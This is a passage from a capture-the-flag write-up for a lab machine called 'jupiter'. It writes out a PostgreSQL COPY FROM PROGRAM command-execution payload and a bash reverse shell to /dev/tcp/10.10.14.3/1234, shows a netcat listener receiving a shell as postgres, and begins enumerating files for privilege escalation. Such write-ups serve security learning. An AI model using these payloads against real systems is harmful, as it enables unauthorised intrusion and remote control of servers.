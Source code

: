 ```bash
    }
  ],
  "range": {
    "from": "2023-08-24T03:34:16.703Z",
    "to": "2023-08-24T09:34:16.703Z",
    "raw": {
      "from": "now-6h",
      "to": "now"
    }
  },
  "from": "1692848056703",
  "to": "1692869656703"
}
```

So lets try postgres injection (**[PostgreSQL payload Command Execution](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-command-execution)**). To use this payload we need to execute with postgres the following commands (in this order):

* <u>DROP TABLE IF EXISTS cmd_exec;</u> Drop the table you want to use if it already exists
* <u>CREATE TABLE cmd_exec(cmd_output text);</u> Create the table you want to hold the command output
* <u>COPY cmd_exec FROM PROGRAM 'id';</u> Run the system command via the COPY FROM PROGRAM function

We will change the program 'id' for a reverse shell with `bash -c "bash -i>& /dev/tcp/10.10.14.3/1234 0>&1"` (we have to escape the double quotes)

![[Pasted image 20230824115142.png]]

```bash
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.216] 54486
bash: cannot set terminal process group (2396): Inappropriate ioctl for device
bash: no job control in this shell
postgres@jupiter:/var/lib/postgresql/14/main$ whoami
whoami
postgres
```

And we have a shell, now lets escalate privileges

We don't find any user flag for the current session user so we found two users in home directory: juno and jovian

Searching for files for that users we find the following in the user juno

```bash
postgres@jupiter:/var/lib/postgresql/14/main$ find / -user juno 2>/dev/null
/dev/shm/shadow.data
/dev/shm/shadow.data/sim-stats.json
...[SNIP]...
/dev/shm/network-simulation.yml
/home/juno
```
